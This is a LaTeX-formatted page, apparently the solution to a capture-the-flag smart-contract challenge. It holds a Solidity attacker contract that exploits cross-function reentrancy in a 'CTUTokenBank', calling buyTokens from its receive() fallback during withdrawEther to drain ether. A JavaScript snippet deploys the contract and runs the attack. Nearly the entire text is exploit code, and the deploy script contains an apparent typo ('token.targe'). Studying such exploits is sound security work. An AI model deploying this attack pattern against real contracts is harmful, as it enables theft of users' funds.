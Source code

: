 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=Solidity]
  /**
  * @title CTUTokenBankAttacker
  * @notice Demonstrates a cross-function reentrancy exploit on CTUTokenBank.
  *         Even though 'withdrawEther' is guarded by a reentrancy lock, 'buyTokens'
  *         is wide open. The attacker calls 'withdrawEther', and during the
  *         fallback--while the lock is active--calls 'buyTokens' using the *old*
  *         balance that hasn't yet been subtracted.
  */
 contract CTUTokenBankAttacker {
     ICTUTokenBank public ctuBank;
     ICTUToken public ctuToken;
     address public owner;
     bool private alreadyCalled;
 
     constructor(address _ctuBank, address _ctuToken) {
         ctuBank = ICTUTokenBank(_ctuBank);
         ctuToken = ICTUToken(_ctuToken);
         owner = msg.sender;
         alreadyCalled = false;
     }
 
     function attack() external payable {
         require(msg.sender == owner, "Not owner");
         
         // 1) Deposit Ether into the bank
         ctuBank.depositEther{value: msg.value}();
 
         // 2) Start a withdrawal, which will send Ether back to this contract
         ctuBank.withdrawEther();
 
         // 3) Sell the CTU Tokens to the bank
         ctuToken.approve(address(ctuBank), ctuToken.balanceOf(address(this)));
         ctuBank.sellTokens(ctuToken.balanceOf(address(this)));
 
         // 4) Withdraw the Ether again
         ctuBank.withdrawEther();
 
         // 5) Repeat the attack one more time
         alreadyCalled = false;
         ctuBank.depositEther{value: 5 ether}();
         ctuBank.withdrawEther();
         ctuToken.approve(address(ctuBank), 5 * 10 ** 18);
         ctuBank.sellTokens(ctuToken.balanceOf(address(this)));
         ctuBank.withdrawEther();
 
         // 6) Transfer the stolen funds to the player
         payable(owner).transfer(address(this).balance);
     }

     receive () external payable {
         if (!alreadyCalled) {
             alreadyCalled = true;
             ctuBank.buyTokens();
         }
     }
 
 }
\end{lstlisting}

\noindent
JavaScript code to start the attack:
\begin{verbatim}
// Deploy the attack contract
const attackerContractFactory = 
  await ethers.getContractFactory("CTUTokenBankAttacker", player);
const attackerContract = 
  await attackerContractFactory.deploy(bank.target, token.targe)
// Execute the attack with 5 Ethers
await attackerContract.attack({ value: 5n * 10n ** 18n });
\end{verbatim}
\end{document}

